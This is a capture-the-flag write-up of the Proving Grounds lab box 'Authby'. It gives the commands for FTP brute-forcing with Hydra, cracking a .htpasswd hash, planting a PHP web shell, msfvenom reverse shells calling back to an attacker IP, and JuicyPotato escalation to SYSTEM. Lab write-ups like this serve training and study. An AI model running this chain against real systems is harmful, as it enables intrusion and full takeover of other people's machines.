







# Authby — Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Authby (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-04-28

---

## TL;DR

### Anonymous FTP listed user accounts. Brute-forced FTP to find `admin:admin`. Cracked a `.htpasswd` hash to get `offsec:elite` for the web portal. Uploaded a PHP reverse shell via FTP to the web root. Escalated via SeImpersonatePrivilege with JuicyPotato (x86) using a BITS CLSID and a stageless payload.
---
## Target info

- Host: `192.168.221.46` / `192.168.179.46`
- OS: LIVDA (Windows)
---
## Enumeration



Anonymous FTP access showed `/accounts` listing Offsec, anonymous, and admin users.

---
## Foothold

Brute-forced FTP:

```bash
hydra -I -V -f -L usernames.txt -u -P /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt 192.168.179.46 ftp
```

Found `admin:admin`. Downloaded files:

```bash
ftp admin:admin
mget *
```



Hash: `$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0`



Cracked: `offsec:elite`

Creds worked on the web portal on port 242. FTP uploads went to `c:\wamp\www\` -- uploaded a PHP web shell and confirmed command execution:



Generated a reverse shell:

```bash
msfvenom -p php/reverse_php LHOST=192.168.45.208 LPORT=4444 -o msf_shell.php
```

Got shell as `livda\apache`.

---
## Privesc



System is x86. `whoami /priv` showed SeImpersonatePrivilege.

RoguePotato failed with a 32/64 bit error:



JuicyPotato x86 failed with a CLSID error:



Added BITS CLSID for Windows Server 2008 R2:

```
C:\wamp\www\Juicy.Potato.x86.exe -t * -p C:\wamp\www\shell-x86-3.exe -l 4443 -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"
```

The staged payload shell was dying on connect. Switched to a stageless payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.208 LPORT=4443 -f exe > shell-x86-3.exe
```

Got SYSTEM shell.

---
## Lessons & takeaways

- FTP anonymous access can reveal usernames for targeted brute-forcing
- When FTP uploads land in the web root, that is a direct path to RCE
- JuicyPotato on older Windows requires the correct CLSID for the OS version
- Staged payloads can die immediately -- switch to stageless when shells keep dropping
---
